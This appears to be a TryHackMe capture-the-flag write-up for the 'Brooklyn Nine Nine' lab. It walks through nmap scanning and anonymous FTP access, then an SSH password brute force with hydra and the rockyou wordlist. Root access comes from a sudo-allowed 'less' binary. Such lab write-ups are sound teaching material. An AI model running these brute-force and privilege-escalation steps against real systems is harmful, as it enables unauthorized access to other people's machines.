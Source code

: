 # [THM] - Brooklyn Nine Nine

[Room link](https://tryhackme.com/room/brooklynninenine)

---

## Enumeration

I use nmap for scanning the machine ports and services avalaibles.

```bash
$ nmap -sS <target_ip>
[...]
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```

Let's see on the ftp service with anonymous user.

```bash
$ ftp <target_ip>
Name (10.10.193.105:<user>): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
229 Entering Extended Passive Mode (|||60903|)
150 Here comes the directory listing.
drwxr-xr-x    2 0        114          4096 May 17  2020 .
drwxr-xr-x    2 0        114          4096 May 17  2020 ..
-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
226 Directory send OK.
```

Get the file called "note_to_jake.txt" and read it.

```txt
$ cat note_to_jake.txt 
From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine
```

So Jake have a weak password.

---

## Exploitation

We can try to bruteforce ssh with the user "jake" with a simple and famous wordlist called rockyou.

```bash
$ hydra -I -f -Vv -l jake -P <wordlist_rockyou> <target_ip> ssh
[...]
[22][ssh] host: 10.10.193.105   login: jake   password: *************
[STATUS] attack finished for 10.10.193.105 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
```

---

## User flag

Let's connect on the target machine through ssh

```bash
ssh jake@10.10.193.105        
[...]
jake@10.10.193.105's password: 
Last login: Tue May 26 08:56:58 2020
jake@brookly_nine_nine:~$ 
```

Get the user flag on /home/holt/user.txt

---

---

## Root flag

We can check the sudo permissions 

```bash
$ sudo -l
Matching Defaults entries for jake on brookly_nine_nine:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /usr/bin/less
```

Check on this website at the less section -> https://gtfobins.github.io/gtfobins/less/#sudo

For read the root.txt, use the following command.

```bash
$ less /root/root.txt
```
